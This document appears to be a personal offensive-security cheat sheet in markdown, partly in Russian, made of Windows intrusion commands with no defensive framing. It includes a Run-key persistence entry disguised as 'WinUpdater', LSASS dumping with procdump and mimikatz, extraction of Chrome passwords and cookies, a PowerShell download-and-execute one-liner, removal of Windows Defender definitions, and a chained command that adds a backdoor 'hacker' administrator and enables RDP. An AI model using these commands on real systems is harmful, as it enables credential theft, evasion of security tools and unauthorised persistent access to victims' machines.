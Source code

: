 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

````
WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
````
https://cloud.mail.ru/public/yp5y/tod8RWQqv
````
````
https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters

посмотреть процессы:

tasklist /V
tasklist /SVC

посомтреть АВ\

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
sc query windefend

удалить правила для ДЕФ

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

посмотреть установленные программы

reg query HKEY_LOCAL_MACHINE\SOFTWARE

ПОРТЫ открытые:

netstat -ano

порты для программ:
netsh firewall show state
netsh firewall show config


включить РДП

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed


net user hacker PASS /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

Авто загрузка управление

- https://www.thewindowsclub.com/manage-startup-items-windows-8

- https://www.techsupportall.com/how-to-disable-startup-programs-in-windows-10/#method4

-= https://community.spiceworks.com/topic/2140905-disabling-windows-startup-services-through-command-prompt

++ https://github.com/Faustvii/StartupManager
````
